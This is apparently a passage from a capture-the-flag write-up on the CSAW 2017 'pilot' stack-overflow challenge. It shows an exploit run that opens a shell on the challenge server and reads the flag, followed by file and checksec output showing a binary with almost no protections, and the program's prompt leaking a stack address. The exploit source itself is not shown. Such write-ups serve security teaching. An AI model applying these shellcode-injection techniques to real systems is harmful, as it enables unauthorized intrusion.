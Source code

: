 ```r
➜  python exploit.py 
[+] Opening connection to pwn.chal.csaw.io on port 8464: Done
Exploit?
0x7ffe3cf25d80
Shellcode is at: 0x7ffe3cf25d80
[*] Switching to interactive mode
$ id
uid=1000(pilot) gid=1000(pilot) groups=1000(pilot)
$ whoami
pilot
$ cat flag
flag{1nput_c00rd1nat3s_Strap_y0urse1v3s_1n_b0ys}
$  
```
<a name="english-pilot"></a>

###### English

This is a basic stack overflow challenge. Let's check out the file info.

```r
➜  file pilot
pilot: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=6ed26a43b94fd3ff1dd15964e4106df72c01dc6c, stripped
```

The information shows that this is a stripped 64-bit binary. A stripped binary is harder to debug. Fortunately, there is a tool that makes debugging stripped binaries slightly easier.

Let's check security settings on this binary using checksec.

```r
➜  checksec pilot 
[*] '/root/workspace/ctfs/2017/csaw/pwn/pilot/pilot'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Almost no protection! Let's run the binary.

```r
➜  ./pilot
[*]Welcome DropShip Pilot...
[*]I am your assitant A.I....
[*]I will be guiding you through the tutorial....
[*]As a first step, lets learn how to land at the designated location....
[*]Your mission is to lead the dropship to the right location and execute sequence of instructions to save Marines & Medics...
[*]Good Luck Pilot!....
[*]Location:0x7fff0ef02250
[*]Command:
```
